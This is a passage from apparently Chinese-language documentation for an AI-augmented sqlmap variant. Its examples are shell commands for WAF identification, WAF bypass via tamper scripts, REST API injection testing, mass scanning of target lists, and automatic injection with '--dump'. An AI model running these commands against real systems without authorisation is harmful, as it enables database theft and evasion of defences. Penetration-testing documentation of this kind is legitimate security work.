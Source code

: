 ```bash
# 步骤1：识别WAF
python sqlmap.py -u "http://target.com/page.php?id=1" --identify-waf

# 步骤2：使用智能payload绕过WAF
python sqlmap.py -u "http://target.com/page.php?id=1" --smart-payload --tamper=space2comment,charencode

# 步骤3：分析结果
python sqlmap.py -u "http://target.com/page.php?id=1" --smart-payload --tamper=space2comment,charencode --ai-analysis

# 步骤4：使用简化版自动注入 (新增)
python -m ai_module autoinject "http://target.com/page.php?id=1" --dbms mysql --batch
```

### 案例3：REST API测试

针对现代REST API的测试：

```bash
# 步骤1：准备请求文件
# (将API请求保存到req.txt，包含必要的头部和认证信息)

# 步骤2：使用智能payload测试
python sqlmap.py -r req.txt --smart-payload --data='{"userId": "*"}'

# 步骤3：分析结果并获取修复建议
python sqlmap.py -r req.txt --ai-analysis --explain-vuln --suggest-fix

# 步骤4：使用简化版自动注入 (新增)
# (需要先从请求文件中提取URL和参数)
python -m ai_module autoinject "https://api.example.com/users?id=1" --dbms postgresql
```

### 案例4：大规模渗透测试

在企业环境中进行大规模测试：

```bash
# 步骤1：准备目标列表
# (targets.txt 包含多个目标URL)

# 步骤2：批量扫描
python sqlmap.py -m targets.txt --smart-payload --batch --threads=5

# 步骤3：生成综合报告
python sqlmap.py -m targets.txt --ai-analysis --report-format=pdf --output-dir=scan_results

# 步骤4：对发现的漏洞进行自动注入 (新增)
# (针对发现的漏洞URL逐个进行自动注入)
python -m ai_module autoinject "http://vulnerable-target.com/page.php?id=1" --dump
```
